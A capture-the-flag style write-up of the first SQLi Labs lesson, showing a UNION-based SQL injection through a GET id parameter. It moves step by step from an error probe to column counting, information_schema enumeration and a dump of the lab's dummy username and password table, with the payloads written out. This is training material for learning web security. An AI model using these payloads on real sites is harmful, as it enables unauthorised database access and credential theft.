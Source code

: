 Hello guys,

This is the write up for Less-1 - " GET-Error Based- Single Quotes - String" from SQLi Labs


started with a [URL].../Less-1/ page, which instructed me to input the ID as parameter with numeric value.

So I start with adding ```?id=1``` after the URL and got 

```Your Login name:Dumb
Your Password:Dumb
```

in the page.

and using different numbers after 2, I got different Login names and passwords.

As the name of the Lesson suggests I start with a single quote Error

so I type a single quote ... ```[URL]/?id=1'```
and an error is returned ```You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the 
right syntax to use near ''1'' LIMIT 0,1' at line 1```

So it seemd like ```?id=x```, is going into an sql command like

```SELECT _____ FROM _____ WHERE id = 'x';```

This is because there are odd number of single quotes.

However, I continue by trying to find out the number of columns in the table from which the usernames and passwords are printed from, by adding 

```UNION SELECT 1 -- -```
It returned an error: 

``` The used SELECT statements have a different number of columns ```
so i continued increasing till an error wasnt returned at:

```[URL]/?id=1' UNION SELECT 1,2,3 -- -```

However from here on I continued by using a wrong number after id so that the output of my following code can come instead, i proceeded with ```?id=-1```

I proceded by using, ```UNION SELECT 1, group_concat(table_name),3 FROM information_schema.tables WHERE table_schema=database() -- -```
and  ```Your Login name:emails,referers,uagents,users
        Your Password:3``` was returned so there were 4 tables called emails,referers,uagents and users. It was obvious users had the data of the login information.

so I change the command to 

``` UNION SELECT 1, group_concat(column_name),3 from information_schema.columns WHERE table_name = 'users'-- -```
and ```Your Login name:id,username,password``` was updated
So, the table users had 3 columnns called 'id,username,password'

Therefore to get a dump of this table I finally used,

```UNION SELECT 1, group_concat(username,0x7c,password),3 FROM users-- -```

And the username and password dump was finally printed!!!!

```
Your Login name:Dumb|Dumb,Angelina|I-kill-you,Dummy|p@ssword,secure|crappy,stupid|stupidity,superman|genious,batman|mob!le,admin|admin,admin1|admin1,admin2|admin2,admin3|admin3,dhakkan|dumbo,admin4|admin4
Your Password:3
```


references:

-https://www.sqlinjection.net/numeric-parameters/

-https://portswigger.net/web-security/sql-injection/union-attacks

-https://noobsec.net/sqli-cheatsheet/#Database-Contents


